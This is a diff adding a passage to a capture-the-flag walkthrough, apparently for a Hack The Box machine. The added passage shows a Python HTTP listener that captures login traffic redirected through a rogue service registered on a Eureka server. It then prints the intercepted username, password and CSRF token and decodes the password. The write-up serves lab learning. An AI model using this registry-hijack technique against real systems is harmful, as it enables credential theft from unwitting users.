

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/post-0.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/post-0.md
+++ b/posts/post-0.md
@@ -166,3 +166,27 @@ Put the info in a json-file to go with the curl post:
 Running this we can see that the service "test" is registered on the eureka server:
 
 <img width="936" height="314" alt="Screenshot 2025-09-03 at 03 54 07" src="https://github.com/user-attachments/assets/7045132e-ed35-4e76-b7b9-c4b7cfe0e9fa" />
+
+Then running a listening HTTP Python Server:
+
+```
+#!/usr/bin/env python3
+from http.server import BaseHTTPRequestHandler, HTTPServer
+
+class Handler(BaseHTTPRequestHandler):
+    def do_POST(self):
+        print(self.headers)
+        print(self.rfile.read(int(self.headers.get('Content-Length', 0))).decode())
+        self.send_response(200)
+        self.end_headers()
+        self.wfile.write(b"POST received")
+
+if __name__ == "__main__":
+    HTTPServer(('', 80), Handler).serve_forever()
+```
+
+We finally get:
+
+```username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=H_qM_kLKtB-7PSzqaLXHBZkcVjh3V1Np_o7VkUthTPkzIIjsLcO8x3Wv0H6WC02OUJjzMq94ewBHZGBEn7jj9X1Uec8DE-re```
+
+Cool. Decoding the URL-encoding and we get the password: ```IL!veT0Be&BeT0L0ve```
````
